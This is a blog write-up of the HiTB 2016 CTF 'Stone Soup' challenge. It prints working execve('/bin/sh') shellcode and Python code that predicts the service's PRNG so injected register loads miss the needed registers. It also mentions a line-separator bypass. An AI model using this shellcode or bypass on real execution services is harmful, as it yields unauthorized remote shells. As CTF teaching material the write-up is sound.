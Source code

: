 Title: bin100 - Stone Soup
Author: doskop
Date: 2016-05-29 11:12
Tags: CTF

## Introduction

This is a write-up for the bin100 challenge of the HiTB 2016 CTF.

>Nowadays in the times of cyber warfare it is important that code provided by
> attackers is executed in a safe way. Our shellcode prevention technology, dubbed
> "stone soup", has provided us with years of sekjurity.
> You'll find this service to be running on 145.111.225.50:33533.
>
> Source code for this service is available [here]({filename}/downloads/hitb-2016-ctf/bin100/bfefa7a53e0ff7dd91242adb8edc2315_stone_soup.py).

## Analysis

The program allows you to feed it assembler instructions for the x86\_64 architecture. It starts out by settings all registers (except for `RSP`) to a random values. It then adds your instructions but adds 8 register loads for random registers using random values after each statement where statements are separated by ; or \\n. Finally it assembles the program using keystone engine and executes it.

There are a couple of ways to solve this one: The easy ways would be to find a way to manipulate the program to allow chaining assembler instructions without it noticing (hint: try `\r` instead of `\n`) or tricking keystone engine into ignoring the register loads. The hard way would be to find a solution where the register loads don't matter. Needless to say, I took the hard path.

## Exploitation

First, let's create some shellcode using intel syntax (the default for keystone-engine) that defers loading the registers as long as possible and in a way where we can easily change their order:

    :::nasm
    sub rsp, 8
    mov qword ptr [rsp], 1852400175
    mov qword ptr [rsp + 4], 6845231
    push 0
    push 0
    push rsp
    add dword ptr [rsp], 16
    push rsp
    push rsp
    add dword ptr [rsp], 32
    mov rax, 59
    xor rdx, rdx
    mov rsi, qword ptr [rsp + 8]
    mov rdi, qword ptr [rsp]
    syscall

This basically pushes `/bin/sh` to the stack, creates an array structure on the stack call calls the `execve` syscall like this: `syscall_execve('/bin/sh\0', ['/bin/sh', 0], 0)`.

Since the random number generator is very predictable and generates the same sequence on every run, let's find a state where the registers we need aren't destroyed.

We start by lifting the prng from the challenge:

	:::python
    def xs128p(state0, state1):
        # https://blog.securityevaluators.com/hacking-the-javascript-lottery-80cc437e3b7f
        s1 = state0 & ((1 << 64) - 1)
        s0 = state1 & ((1 << 64) - 1)

        s1 ^= (s1 << 23) & ((1 << 64) - 1)
        s1 ^= (s1 >> 17) & ((1 << 64) - 1)
        s1 ^= s0 & ((1 << 64) - 1)
        s1 ^= (s0 >> 26) & ((1 << 64) - 1)

        state0 = state1 & ((1 << 64) - 1)
        state1 = s1 & ((1 << 64) - 1)

        generated = (state0 + state1) & ((1 << 64) - 1)
        return state0, state1, generated

    def prng():
        state0, state1 = struct.unpack("QQ", "HACKINTHEBOX2016")
        while True:
            state0, state1, value = xs128p(state0, state1)
            yield value

And create a function that tries to find a state in the random generator where a given set of registers isn't destroyed before the next instruction (not only do the registers have to survive all 4 registers loads, it also needs to get to the syscall with the registers intact):

	:::python
    def find_solution(save_regs):
    	# Initialise the PRNG and set the initial state
        p = prng()
        for x in xrange(15):
            next(p)
        
        # Here we keep track of which registers we've saved so far.
        saved_regs = []
        
        for i in itertools.count(1):
        	# Create a list of registers that are destroyed in this round:
            destroyed = []
            for x in xrange(8):
                destroyed.append(regs[next(p) % 15])
                next(p)
            
            # Check if we're destroying any of the registers we've saved so far:
            if set(destroyed) & set(saved_regs):
                saved_regs = []
                continue
            
            # Are we done yet?
            if len(saved_regs) == len(save_regs):
                print saved_regs, 'after', i
                break
            
            # Pick the next register we will try to save:
            want_reg = save_regs[len(saved_regs)]
            saved_regs.append(want_reg)

Now, we run this for every permutation of the registers we want to save (`rax`, `rdx`, `rdi` and `rsi`):

	:::python
    for save_regs in itertools.permutations(['rdx', 'rax', 'rdi', 'rsi']):
	    find_solution(save_regs)

You can find the full script [here]({filename}/downloads/hitb-2016-ctf/bin100/find_register_solution.py).

This gives us a number of solutions, the shortest being:

	['rsi', 'rdi', 'rdx', 'rax'] after 67

This tells use that the register loads in the order `rsi`, `rdi`, `rdx`, `rax` should finish on line 67 of the assembler script and the syscall should be on line 68. Applying this knowledge to the original shellcode gives us [this]({filename}/downloads/hitb-2016-ctf/bin100/shellcode_input.asm). If you were to feed this to the service you end up with [this]({filename}/downloads/hitb-2016-ctf/bin100/shellcode_output.asm). Lo and behold, our registers remain intact.

Send the to the service and you'll get a remote shell.